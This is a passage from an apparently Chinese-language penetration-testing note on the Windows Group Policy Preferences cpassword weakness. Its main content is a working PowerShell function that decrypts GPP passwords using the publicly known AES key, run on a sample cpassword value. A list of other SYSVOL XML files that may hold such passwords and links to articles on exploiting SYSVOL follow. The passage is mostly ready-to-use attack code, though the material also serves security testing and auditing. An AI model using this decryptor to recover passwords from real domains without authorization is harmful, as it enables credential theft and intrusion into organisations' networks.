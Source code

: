 参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length)
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor()
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch {Write-Error $Error[0]}
}
Get-DecryptedCpassword "9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"
```

**组策略中该目录下的其他 XML 文件**
- \User\Preferences\Groups
- Services\Services.xml
- ScheduledTasks\ScheduledTasks.xml
- Printers\Printers.xml
- Drives\Drives.xml
- DataSources\DataSources.xml

**相关文章**
- [域安全篇：寻找SYSVOL里的密码和攻击GPP（组策略偏好）](https://www.freebuf.com/vuls/92016.html)
- [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
- [域渗透——利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653)
- [windows2008 GPP漏洞利用](https://bl4ck.in/penetration/2015/08/14/windows2008-GPP%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.html)
- [浅析域渗透中的组策略利用](https://xz.aliyun.com/t/7784)
